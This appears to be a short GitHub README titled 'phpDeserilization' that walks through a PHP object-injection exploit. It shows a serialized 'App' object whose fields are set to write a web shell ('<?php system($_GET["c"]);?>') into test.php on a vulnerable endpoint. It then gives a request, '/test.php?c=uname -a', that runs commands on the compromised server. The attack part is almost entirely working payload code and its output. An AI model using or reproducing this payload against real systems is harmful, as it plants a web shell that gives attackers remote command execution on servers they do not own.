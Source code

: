 # phpDeserilization

# Find vulnerable endpoint!!

## Usage

*Testing*
deseralize.php
```php
<?php

class App
{
    public $logfile = 'logs.txt';
    public $logData = 'text';
}

$test = new App;

echo serialize($test);
```

Run deseralize.php, eg: 
```php
O:3:"App":2:{s:7:"logfile";s:8:"logs.txt";s:7:"logData";s:4:"text";}
```
To seralize the object/class


# Exploit 

```php
<?php

class App
{
    public $logfile = 'test.php';
    public $logData = '<?php system($_GET["c"]);?>';
}

$test = new App;

echo htmlspecialchars(serialize($test));

```
Output:
```php
O:3:&quot;App&quot;:2:{s:7:&quot;logfile&quot;;s:8:&quot;test.php&quot;;s:7:&quot;logData&quot;;s:27:&quot;&lt;?php system($_GET[&quot;c&quot;]);?&gt;&quot;;}
#From html entity
O:3:"App":2:{s:7:"logfile";s:8:"test.php";s:7:"logData";s:27:"<?php system($_GET["c"]);?>";} 
```

Use the payload on the vunerable endpoint

Exploit
```php
 /test.php?c=uname -a
```
